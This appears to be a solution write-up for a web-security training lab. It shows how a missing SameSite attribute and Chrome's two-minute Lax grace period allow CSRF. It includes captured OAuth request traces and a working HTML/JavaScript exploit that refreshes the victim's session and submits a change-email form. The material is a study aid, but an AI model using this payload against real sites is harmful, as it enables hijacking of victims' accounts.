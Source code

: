 This lab's change email function is vulnerable to CSRF. To solve the lab, perform a CSRF attack that changes the victim's email address. You should use the provided exploit server to host your attack.

The lab supports OAuth-based login. You can log in via your social media account with the following credentials: wiener:peter 

# Solution

Login

```http
GET /social-login
Host: LAB-ID.web-security-academy.net
```
- 200 - redirect to oauth login


oauth login flow
```http
GET /auth?client_id=ttgf8triqe8jmqze64xfz&redirect_uri=https://0a16006b03f0dbd980af268100d700fc.web-security-academy.net/oauth-callback&response_type=code&scope=openid%20profile%20email HTTP/1.1
Host: oauth-0a7f009403efdbe88052244d02e7001f.oauth-server.net
```
- 302 - redirect to oauth server login page


oauth login page
```http
GET /interaction/LnB-KI1z12UHi99L9ShYx HTTP/2
Host: oauth-0a7f009403efdbe88052244d02e7001f.oauth-server.net
Cookie: _interaction=LnB-KI1z12UHi99L9ShYx
```
- 200 - sign-in form

sign-in oauth
```http
POST /interaction/LnB-KI1z12UHi99L9ShYx/login HTTP/2
Host: oauth-0a7f009403efdbe88052244d02e7001f.oauth-server.net
Cookie: _interaction=LnB-KI1z12UHi99L9ShYx
...
username=wiener&password=peter
```
- 302

after POST /interation/..., oauth flow will make a callback to web server
```http
GET /oauth-callback?code=IesgCtIOgwk9dwLLUtfnIDevzbgHLaAfgD4nYcOyHW8 HTTP/2
Host: 0a16006b03f0dbd980af268100d700fc.web-security-academy.net
```

Response:
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Set-Cookie: session=pbZt34N9eNYRsihlyQdd0y7CLKkfICJU; Expires=Fri, 23 Aug 2024 02:45:06 UTC; Secure; HttpOnly
X-Frame-Options: SAMEORIGIN
...
```
- session cookie set but no samesite attribute set

Notes:
- if a website doesn't include a `SameSite` attribute when setting a cookie, Chrome automatically applies Lax restrictions by default. However, to avoid breaking single sign-on (SSO) mechanisms, it doesn't actually enforce these restrictions for the first 2 minutes on top-level `POST` requests.


`POST /my-account/change-email`
- has no CSRF token
- cookie['session] will be set to `lax` after 2min past logging in
    - hence, CSRF attack window is within 2min the cookie['session] token is set/refreshed


We can get refresh a session cookie by calling: 
```http
GET /social-login
Host: LAB-ID.web-security-academy.net
```
- will make oauth calls resulting to `GET /oauth-callback?code=...` which will refresh the cookie['session']
    - samesite not set
    - chrome browser will set to `lax` after 2min
- requires a timeout for redirect to work

Deliver exploit to victim
```js
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="test@test">
</form>
<script>
    window.onclick = () => {
        window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
        setTimeout(changeEmail, 6000); // for redirect to complete
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```